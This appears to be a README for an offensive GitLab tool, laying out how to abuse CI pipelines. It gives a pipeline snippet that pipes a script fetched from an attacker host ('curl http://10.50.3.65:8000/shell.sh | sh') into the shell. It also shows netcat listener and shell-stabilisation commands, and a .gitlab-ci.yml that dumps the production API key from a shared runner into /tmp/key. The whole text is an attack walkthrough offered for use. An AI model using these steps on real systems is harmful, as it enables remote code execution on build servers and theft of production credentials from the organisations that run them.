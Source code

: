This tools helps in efficiently enumerating the publicly visible repos

Use the above script and Gitlab API for enumuration.

Donot change the file name "enumerator.py"

Note: Make sure to install the Gitlab pip package using pip3 install python-gitlab==3.15.0

=======================================
replace the below lines in the .gitlab-ci.yml  file to get the reverse shell

pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://10.50.3.65:8000/shell.sh | sh
                '''                 
              }             
          }
       }       
    }


=======================================
simple reverse shell.sh

Update the attacker_Ip and port for to make connection
in the attacker machine type this 

nc -lvn PORT

After the reverse connection is established stabilize the shell using python 

Type the below command in the pawned machine

python3 -c 'import pty; pty.spawn("/bin/bash")'

after executing the above python shell do "ctrl + z" #terminate the shell and execute the below command in the attacker machine to connect back to the victim

stty raw -echo; fg

=======================================

Extracting the Production API key

If gitlab runners are same in the prod and dev server then we can able to extract the prod API key using the dev server.

Let say if the main is protected, then we cant do commeit and merge to the main branch, if we can able to do commits in dev branch, if the dev branch is also using the same running which prod is running
then we can use the dev branch .gitlab-ci.yml file to extract the prod api key.

Replace the .gitlab-ci.yml file in the dev as below, the below command might create the key in tmp/key directory of dev server, while commiting the changes look for the pipelines and jobs wether running or pending and manual. If its manual run the job manually, it might triger the script to run.
=======================================

  stages:
  - test
  - deploy

test:
  stage: test
  script:
    - 'echo "Testing Application: ${CI_PROJECT_NAME}"'

production:
  stage: deploy
  when: manual
  script:
    - 'echo "Deploying to ${CI_ENVIRONMENT_NAME}"'
    - 'echo "${API_KEY}" > /tmp/key'
    - 'echo "Ready to use the API KEY"'
  environment:
    name: ${CI_JOB_NAME}
=======================================
